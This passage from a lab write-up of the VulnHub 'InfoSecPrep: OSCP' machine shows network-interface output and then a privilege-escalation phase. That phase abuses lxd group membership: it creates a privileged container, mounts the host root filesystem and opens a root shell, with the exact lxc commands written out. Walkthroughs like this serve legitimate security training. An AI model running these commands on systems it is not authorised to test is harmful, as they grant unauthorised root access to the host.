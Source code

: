 ``` {.python .numberLines}
  TX packets 297471  bytes 52912167 (52.9 MB)
  TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 694  bytes 64212 (64.2 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 694  bytes 64212 (64.2 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
oscp@oscp>  
oscp@oscp> users
root
oscp
```

\newpage
## Phase #3: Privilege Escalation
1\. From the output of command `id`, we see that the user `oscp` is a member of `lxd` group. We can exploit this misconfiguration to create a dummy container that mounts the local file system and gain access to all privileged files. But we see that the `lxc` command for this to work is not found in our current environment path:  
``` {.python .numberLines}
lxc init ubuntu:16.04 test -c security.privileged=true
  -bash: lxc: command not found

```

![writeup.privesc.steps.1.1](Box%20Write-ups/vulnhub.infosecpreposcp/screenshot09.png)  

2\. We locate the file and use it's absolute path to create the container. This time we see another error about storage pool. The error message helpfully points us in the right direction and we need to initialize LXD first. We use the suggested command with the absolute path and choose default settings when prompted for a change:  
``` {.python .numberLines}
/snap/bin/lxd init
/snap/bin/lxc init ubuntu:16.04 test -c security.privileged=true
/snap/bin/lxc config device add test whatever disk source=/ path=/mnt/root recursive=true 
/snap/bin/lxc start test
/snap/bin/lxc exec test bash

```

![writeup.privesc.steps.2.1](Box%20Write-ups/vulnhub.infosecpreposcp/screenshot10.png)  

![writeup.privesc.steps.2.2](Box%20Write-ups/vulnhub.infosecpreposcp/screenshot11.png)  

![writeup.privesc.steps.2.3](Box%20Write-ups/vulnhub.infosecpreposcp/screenshot12.png)  

![writeup.privesc.steps.2.4](Box%20Write-ups/vulnhub.infosecpreposcp/screenshot13.png)  
